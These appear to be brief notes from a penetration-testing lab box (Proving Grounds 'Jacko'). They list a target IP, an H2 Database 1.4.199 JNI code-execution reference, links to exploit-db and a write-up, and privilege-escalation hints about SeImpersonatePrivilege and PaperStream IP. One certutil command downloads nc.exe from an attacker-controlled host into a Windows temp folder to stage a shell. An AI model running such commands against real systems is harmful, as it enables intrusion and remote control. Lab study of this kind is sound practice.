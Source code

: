 ____

>[!INFO]
> IP=192.168.229.66


https://github.com/hktalent/exploit-poc/issues/15

H2 Database 1.4.199 - JNI Code Execution

```bash
certutil -urlcache -split -f http://$IP/nc.exe C:/Windows/Temp/nc.exe
```


# PrivEsc
```bash
c:\windows\system32\whoami.exe /priv
```

SeImpersonatePrivilege windows 10

## PaperStream IP


https://www.exploit-db.com/exploits/49382


https://benheater.com/proving-grounds-jacko/


